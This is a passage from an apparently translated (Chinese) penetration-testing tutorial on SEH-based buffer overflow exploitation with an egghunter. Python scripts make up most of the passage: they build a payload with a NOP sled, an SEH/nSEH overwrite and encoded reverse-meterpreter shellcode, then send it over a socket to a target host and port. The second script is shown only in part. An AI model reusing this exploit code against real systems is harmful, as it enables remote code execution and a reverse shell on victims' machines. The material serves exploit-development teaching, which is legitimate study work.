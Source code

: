 ```
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        # NOP SLED
        buffer += "\x90" * (2504 - len(buffer))
        buffer += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
        sock.send(buffer)
        print "Sent!!"
        sock.close()
```

1.  假设 shellcode 实际上并不在我们在内存中制作的 6 字节跳转之后。在这种情况下，我们可以使用蛋猎手为软件制作一个可靠的利用。

1.  现在听起来可能很容易，但也有一些复杂之处。我们需要我们的最终利用程序遵循我们在图表中提到的流程，但我们还需要确保代码中有足够的 NOPs 来确保利用。

1.  我们的利用流程应该如下所示，就像我们的情况一样，我们有足够的内存来存放 shellcode。但在其他情况下，我们可能没有那么多内存，或者我们的 shellcode 可能存储在内存的其他地方。在这些情况下，我们可以使用蛋猎手，我们将在后面的教程中介绍：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/98bb2d9f-1042-4142-a474-9d170c4f0a7f.png)

1.  根据前面的流程图，我们的 shellcode 看起来应该是这样的：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        #Egghunter Shellcode 32 bytes
        egghunter = ""
        egghunter += "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\
          x2e\x3c\x05\x5a\x74"
        egghunter += "\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf
          \x75\xe7\xff\xe7"
        # 6 Bytes SHORT jump to shellcode
        nseh = "\xeb\x09\x90\x90"
        # POP+POP+RET 0x0f9a196a
        seh = "\x6a\x19\x9a\x0f"
        #Shellcode Reverse meterpreter. 360 bytes
        buffer = ""
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72"
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1"
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
```